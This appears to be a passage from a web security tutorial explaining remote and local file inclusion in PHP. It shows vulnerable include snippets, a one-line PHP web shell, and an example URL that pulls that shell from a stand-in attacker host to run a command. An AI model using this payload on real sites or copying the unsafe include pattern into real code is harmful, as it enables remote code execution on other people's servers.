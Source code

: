 ## File Inclusion

Another way attackers can achieve RCE is by making the target server include a file containing malicious code. This file inclusion vulnerability has two subtypes: *remote file inclusion* and *local file inclusion*.

*Remote file inclusion* vulnerabilities occur when the application allows arbitrary files from a remote server to be included.

The following PHP program calls the PHP include function on the value of the **user-submitted** HTTP GET parameter page. The include function then includes and evaluates the specified file:

```php
<?php
 // Some PHP code
 $file = $_GET["page"];
 include $file;
 // Some PHP code
?>
```

This code allows users to access the various pages of the website by **changing the page parameter**. For example, to view the site’s Index and About pages, the user can visit [http://example.com/?page=index.php](http://example.com/?page=index.php) and [http://example.com/?page=about.php](http://example.com/?page=about.php), respectively.

But if the application **doesn’t limit** which file the user includes with the page parameter, an attacker can include a malicious PHP file hosted on their server and get that executed by the target server.

Here is the content of our malicious PHP file:

```php
<?PHP
 system($_GET["cmd"]);
?>
```

The malicious script will then make the target server execute the system command ls:

[`http://example.com/?page=http://attacker.com/malicious.php?cmd=ls`](http://example.com/?page=http://attacker.com/malicious.php?cmd=ls)

Notice that this same feature is vulnerable to **SSRF** and **XSS** too. This endpoint is vulnerable to SSRF because the page could load info about the local system and network. Attackers could also make the page load a **malicious JavaScript** file and trick the user into clicking it to execute a reflected XSS attack.

On the other hand, *local file inclusions* happen when applications include files in an unsafe way, but the inclusion of remote files isn’t allowed.

In this case, attackers need to first **upload a malicious file to the local machine**, and then execute it by using local file inclusion.

The following PHP file first **gets the HTTP GET parameter** page and then calls the PHP include function after **concatenating page with a directory name** containing the files users can load:

```php
<?php
 // Some PHP code
 $file = $_GET["page"];
 include "lang/".$file;
 // Some PHP code
?>
```
